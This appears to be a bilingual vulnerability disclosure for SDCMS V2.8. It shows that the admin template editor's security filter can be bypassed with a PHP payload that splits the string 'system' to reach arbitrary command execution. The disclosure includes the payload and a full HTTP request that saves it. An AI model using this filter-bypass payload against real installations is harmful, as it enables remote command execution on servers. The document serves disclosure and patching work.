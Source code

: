 # SDCMS V2.8 commnd execution
*SDCMS V2.8命令执行*
## Environment
*环境*
V2.8
![](https://raw.githubusercontent.com/v9d0g/CVEs/refs/heads/main/images/Pasted%20image%2020241009135524.png)
https://www.sdcms.cn/cms.html
## Analysis
*分析*
There is a hidden danger in the security filtering method of template content in app\\admin\\controller\\theme.php, which can cause arbitrary command execution through code injection.

*\\app\\admin\\controller\\theme.php中对模板内容安全过滤方式存在隐患，可通过代码注入造成任意命令执行*

![](https://raw.githubusercontent.com/v9d0g/CVEs/refs/heads/main/images/Pasted%20image%2020241009141106.png)

![](https://raw.githubusercontent.com/v9d0g/CVEs/refs/heads/main/images/Pasted%20image%2020241009141146.png)
## Verify
*证明*
In the backend template plugin ->template management, add code.

*在后台模板插件->模板管理，添加代码*
```php
{php $a='s'.'yst'.'em'; $b='dir'; $a($b);}
```
You can bypass code security verification and execute commands.

*即可绕过代码安全校验，实现命令执行*
![](https://raw.githubusercontent.com/v9d0g/CVEs/refs/heads/main/images/Pasted%20image%2020241009141545.png)
Successfully saved

*成功保存*
![](https://raw.githubusercontent.com/v9d0g/CVEs/refs/heads/main/images/Pasted%20image%2020241009141715.png)
```http
POST /?m=admin&c=theme&a=edit&root=ZTE3MWlQeSt1STBoNzM1WHJ5L05JYjBsZktMZU1HUHB1ZUtxRDBrWWZMMnZxcmY4Z0FPMmZtdmNuV3M= HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 1908
Origin: http://localhost
Connection: close
Referer: http://localhost/?m=admin&c=theme&a=edit&root=ZTE3MWlQeSt1STBoNzM1WHJ5L05JYjBsZktMZU1HUHB1ZUtxRDBrWWZMMnZxcmY4Z0FPMmZtdmNuV3M%3D
Cookie: iconSize=16x16; jenkins-timestamper-offset=-28800000; PHPSESSID=fv6b5117hu9kv7fbepjs9ie1n2; t00ls=e54285de394c4207cd521213cebab040; t00ls_s=YTozOntzOjQ6InVzZXIiO3M6MjY6InBocCB8IHBocD8gfCBwaHRtbCB8IHNodG1sIjtzOjM6ImFsbCI7aTowO3M6MzoiaHRhIjtpOjE7fQ%3D%3D; XDEBUG_SESSION=PHPSTORM
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0

file=2020%2Fcity.php&t0=OTMzZDIrVkJDWUZkTzVZYm1LRFNxei9OSTVFWlZZTGlCZmh2ajI3NUFkQzZ1aDJNaEhMZFhaTXM5U1U%3D&t1=%E5%9F%8E%E5%B8%82%E5%88%86%E7%AB%99&t2=%7Bphp+%24self_name%3D'%E5%9F%8E%E5%B8%82%E5%88%86%E7%AB%99'%7D%0D%0A%7Bphp+%24self_ename%3D'city'%7D%0D%0A%7Bphp+%24position%3D%5B%5B'name'%3D%3E%24self_name%2C'url'%3D%3ETHIS_LOCAL%5D%5D%7D%0D%0A%7Binclude+file%3D%22include%2Ftop.php%22%7D%0D%0A%3Ctitle%3E%7B%24self_name%7D_%7Bsdcms%5Bweb_name%5D%7D%3C%2Ftitle%3E%0D%0A%3Cmeta+name%3D%22keywords%22+content%3D%22%7Bsdcms%5Bseo_key%5D%7D%22%3E%0D%0A%3Cmeta+name%3D%22description%22+content%3D%22%7Bsdcms%5Bseo_desc%5D%7D%22%3E%0D%0A%3C%2Fhead%3E%0D%0A%0D%0A%3Cbody%3E%0D%0A{php+$a='s'.'yst'.'em';+$b='dir';+$a($b);}%0D%0A%09%7Binclude+file%3D%22include%2Fhead.php%22%7D%0D%0A%09%7Binclude+file%3D%22include%2Fbanner_inner.php%22%7D%0D%0A%0D%0A%09%3Cdiv+class%3D%22container%22%3E%0D%0A%09%09%3Cdiv+class%3D%22width+ui-row%22%3E%0D%0A%09%09%09%3Cdiv+class%3D%22container-left%22%3E%0D%0A%09%09%09%09%3Cdiv+class%3D%22ui-fixed-s%22+data-parent%3D%22.container%22%3E%0D%0A%09%09%09%09%09%7Binclude+file%3D%22include%2Fleft_nav.php%22%7D%0D%0A%09%09%09%09%3C%2Fdiv%3E%0D%0A%09%09%09%3C%2Fdiv%3E%0D%0A%09%09%09%0D%0A%09%09%09%3Cdiv+class%3D%22container-right%22%3E%0D%0A%09%09%09%0D%0A%09%09%09%09%3Cdiv+class%3D%22ui-box%22%3E%0D%0A%09%09%09%09%09%3Cdiv+class%3D%22ui-box-h2%22%3E%7B%24self_name%7D%3C%2Fdiv%3E%0D%0A%09%09%09%09%09%3Cdiv+class%3D%22ui-box-body%22%3E%0D%0A%09%09%09%09%09%09%3C!--begin--%3E%0D%0A%09%09%09%09%09%09%7Binclude+file%3D%22include%2Fcity.php%22%7D%0D%0A%09%09%09%09%09%09%3C!--over--%3E%0D%0A%09%09%09%09%09%3C%2Fdiv%3E%0D%0A%09%09%09%09%3C%2Fdiv%3E%0D%0A%09%09%09%0D%0A%09%09%09%3C%2Fdiv%3E%0D%0A%09%09%3C%2Fdiv%3E%0D%0A%09%3C%2Fdiv%3E%0D%0A%09%0D%0A%09%7Binclude+file%3D%22include%2Ffoot.php%22%7D%0D%0A%0D%0A%3C%2Fbody%3E%0D%0A%3C%2Fhtml%3E&token=b3b54c27848b1a21c0e3773559fccfe0
```
Visit vulnerability page.

*访问漏洞页面*
![](https://raw.githubusercontent.com/v9d0g/CVEs/refs/heads/main/images/Pasted%20image%2020241009141812.png)